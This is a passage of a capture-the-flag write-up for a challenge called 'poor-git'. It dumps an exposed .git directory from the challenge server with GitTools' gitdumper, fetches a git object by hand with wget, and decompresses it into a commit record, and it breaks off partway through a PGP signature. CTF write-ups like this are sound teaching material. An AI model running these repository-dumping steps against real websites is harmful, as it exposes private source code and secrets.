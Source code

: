 To start I use [GitTools Dumper](https://github.com/internetwache/GitTools) to dump whatever it can find to a folder.

```
$ ./gitdumper.sh https://poor-git.chall.lac.tf/flag.git/ dumb-git-final --git-dir=flag.git
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating dumb-git-f/flag.git/
[+] Downloaded: HEAD
[+] Downloaded: objects/info/packs
[-] Downloaded: description
[-] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[-] Downloaded: index
[-] Downloaded: packed-refs
[-] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[-] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[+] Downloaded: info/refs
[-] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/21/7ecd3c93b00c6b7404473d3bdfcb222a22edf4
```

Looking at what was extracted, my key interest is in `objects` and looking at the file we got, I have a look at whats in it. (It didn't download for me so I manually did so.)

```
$ wget "https://poor-git.chall.lac.tf/flag.git/objects/21/7ecd3c93b00c6b7404473d3bdfcb222a22edf4"
...
$ file 7ecd3c93b00c6b7404473d3bdfcb222a22edf4
7ecd3c93b00c6b7404473d3bdfcb222a22edf4: zlib compressed data
```

Seeing its zlib, I use `zlib_decompress` to extract it.

```
$ zlib_decompress 7ecd3c93b00c6b7404473d3bdfcb222a22edf4 out
WARNING: zlib_decompress is deprecated and will be removed in a future version
$ cat out
commit 1128tree b46f24349a27913ddfa5c8a29bc3bcc8d2722358
parent c2e6e9737a8a666667b27c3a1dc84a76c8f4dab3
author burturt <31748545+burturt@users.noreply.github.com> 1705793830 -0800
committer burturt <31748545+burturt@users.noreply.github.com> 1705793830 -0800
gpgsig -----BEGIN PGP SIGNATURE-----

 iQIzBAABCAAdFiEES9haaAXoglC6rYp5y1IcUPPMLo8FAmWsWSYACgkQy1IcUPPM
 Lo+D7xAArOSdQR7brnqMfoeYp5no8DH/GduQ0k8M6EPMaVWG8Muj2yt1rBMJQxy+
 LQdMHDCEXJIZ/xjqMsSB7wIKd83QjtT2l2dfo8f/s4HibiSe/1legY69jcigbZ7X
 /k4ghGrp0MKL8o768GcbOVZ/eRhQeSef+X2bCnUD9ITHqmjEUq2f0LBGvLulmSIb
 jlqEhSfm5bu3PjUyD3sn81oZoL02313FQABGgMNz7NSSP7T0qpfqNhrNvgTvZCao
 L+yuk3g4iFnVztUIW+QS91+VpTrJZU5fsOd+aLNRkR6ka8ZZOwzuDpKP3gYQ2oyB
 0pxHQdkQ1imlc1atTCqGvCUERWGzRqfF2hyNRLy008uSY/yR9dPkHVnmq/Y7jL9C
 CrkjwwqUHk7abCPPIqKS0IA0nwiMFh3ifSxVqcqkchbca6rfTdRiYhoRIIpf4igK
```